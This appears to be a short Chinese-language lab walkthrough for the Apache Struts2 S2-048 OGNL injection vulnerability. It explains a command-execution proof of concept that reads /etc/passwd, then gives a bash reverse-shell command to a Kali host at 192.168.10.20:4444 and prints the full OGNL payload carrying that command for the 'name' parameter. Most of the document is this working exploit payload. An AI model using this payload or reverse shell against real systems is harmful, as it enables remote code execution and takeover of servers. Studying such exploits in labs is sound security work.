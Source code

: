 任意命令执行 PoC，执行 `cat /etc/passwd` 命令，将 PoC 替换为 `name` 参数的值，注意需要 urlencode

![s2-048-3](images/s2-048-3.png)

反弹 Shell，执行 `bash -i >& /dev/tcp/192.168.10.20/4444 0>&1` 命令，将 PoC 替换为 `name` 参数的值，注意需要 urlencode，其中 `192.168.10.20/4444` 为 kali 的 IP 地址和端口

```
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash -i >& /dev/tcp/192.168.10.20/4444 0>&1').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())} b"
```
